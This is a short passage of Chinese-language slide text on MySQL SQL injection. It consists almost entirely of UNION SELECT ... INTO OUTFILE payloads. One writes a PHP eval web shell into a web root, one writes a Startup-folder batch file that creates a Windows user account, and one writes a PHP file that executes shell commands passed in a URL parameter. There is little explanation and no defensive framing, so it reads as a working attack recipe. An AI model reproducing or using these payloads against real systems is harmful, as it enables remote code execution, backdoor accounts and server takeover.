

# 写入函数 into outfile   用的比较多
and 1=2 union select 1,"<?php @eval($_POST['cracer']);?>",3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 into outfile 'C:/Inetpub/wwwroot/mysql-sql/cracer.txt'

其他利用
第一种方法：需要使用wamp环境搭建需要系统权限才能执行

 and 1=2 union select 1,"net user seven 123 /add",2,3,4,5,6 into outfile 'C://Documents and Settings/Administrator/「开始」菜单/程序/启动/1.bat'

第二种方法：

and 1=2 union select 1,"<pre><body><?  @system($_GET['cc']); ?></body></pre>",3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 into outfile 'C:/Inetpub/wwwroot/mysql-sql/cr.php'